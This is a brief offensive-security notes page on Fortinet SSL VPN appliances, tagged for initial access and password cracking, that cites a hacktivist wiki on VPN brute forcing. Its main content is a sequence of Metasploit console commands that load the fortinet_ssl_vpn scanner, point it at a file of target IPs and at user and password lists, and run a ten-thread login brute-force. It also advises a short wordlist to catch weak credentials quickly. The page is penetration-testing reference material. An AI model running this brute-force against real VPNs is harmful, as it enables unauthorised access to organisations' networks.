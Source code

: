 # Fortinet

Search Tag(s): #initial-access #exploitation #password-cracking #network-protocols #internet-of-things #metasploit-framework

> [!NOTE] Slow Bruteforce
> Since bruteforcing may take a long time. Use a shorter and most frequent [[VPN Wordlist|vpn wordlist]] to find low hanging fruit.

TODO: Fill this info

```
msf > use auxiliary/scanner/http/fortinet_ssl_vpn

msf auxiliary(scanner/http/fortinet_ssl_vpn) > set RHOSTS file:ip_targets.txt

msf auxiliary(scanner/http/fortinet_ssl_vpn) >set RPORT <PORT>

msf auxiliary(scanner/http/fortinet_ssl_vpn) > set USER_FILE users.txt

msf auxiliary(scanner/http/fortinet_ssl_vpn) > set PASS_FILE passwords.txt

msf auxiliary(scanner/http/fortinet_ssl_vpn) > set threads 10

msf auxiliary(scanner/http/fortinet_ssl_vpn) > run
```

---
## References

### Enlace Hacktivista

- [Enlace Hacktivista: VPN brute forcing](https://enlacehacktivista.org/index.php?title=VPN_brute_forcing)